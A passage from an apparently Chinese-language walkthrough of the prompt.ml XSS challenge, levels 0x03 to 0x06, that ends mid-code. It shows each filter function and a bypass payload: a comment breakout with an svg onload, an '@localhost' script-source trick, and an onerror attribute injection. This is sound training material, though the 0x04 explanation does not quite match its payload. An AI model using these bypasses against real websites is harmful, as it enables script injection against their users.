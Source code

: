 <pre class="wp-block-code"><code>function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '&lt;!-- ' + input + ' -->';
}    </code></pre>

绕过闭合注释，`--!><svg/onload=prompt(1)>`

## 0x04

<pre class="wp-block-code"><code>function escape(input) {
    // make sure the script belongs to own site
    // sample script: http://prompt.ml/js/test.js
    if (/^(?:https?:)?\/\/prompt\.ml\//i.test(decodeURIComponent(input))) {
        var script = document.createElement('script');
        script.src = input;
        return script.outerHTML;
    } else {
        return 'Invalid resource.';
    }
} </code></pre>

在本地将`prompt(1)`写入1.js，/ 是不允许的。考虑到这里的正则特性和decodeURIComponent函数，所以可以使用%2f绕过。最后构造`http://prompt.ml/@localhost/1.js`

## 0x05

<pre class="wp-block-code"><code>function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '&lt;input value="' + input + '" type="text">';
}   </code></pre>

构造如下payload

<pre class="wp-block-code"><code>" type="image" src=# onerror
=prompt(1) "</code></pre>

## 0x06

<pre class="wp-block-code"><code>function escape(input) {
    // let's do a post redirection
    try {
        // pass in formURL#formDataJSON
        // e.g. http://httpbin.org/post#{"name":"Matt"}
        var segments = input.split('#');
        var formURL = segments&#91;0];
        var formData = JSON.parse(segments&#91;1]);

        var form = document.createElement('form');
        form.action = formURL;
        form.method = 'post';
    